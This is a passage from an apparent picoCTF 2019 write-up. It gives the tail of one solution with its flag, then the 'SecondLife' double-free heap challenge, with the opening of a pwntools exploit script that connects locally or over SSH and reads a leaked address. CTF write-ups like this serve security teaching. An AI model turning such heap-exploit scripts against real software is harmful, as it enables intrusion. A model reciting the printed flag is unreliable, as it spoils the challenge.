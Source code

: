 ```python
sh.interactive()
```

flag: `picoCTF{str1nG_CH3353_59c3cf5a}`

# SecondLife

## Problem

Just pwn this program using a double free and get a flag. It's also found in /problems/secondlife_2_ecf87473c7934afc6ea15edd2ee954ca on the shell server. Source.

[Binary](/blog/picoctf-2019-writeup/binary-exploitation/SecondLife/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/SecondLife/vuln.c)

## Solution

This is a double-free heap exploit challenge. The unlink solution that I wrote for [AfterLife](#afterlife) works for this challenge as well, so I just copied the same script over with minor changes.

Exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  if DEBUG:
    attach_gdb()

  REMOTE = False
else:
  s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")
  sh = s.process('vuln', cwd='/problems/secondlife_2_ecf87473c7934afc6ea15edd2ee954ca')
  REMOTE = True

print sh.recvline()
leak = int(sh.recvline())

print hex(leak)

sh.sendline('abcde')

```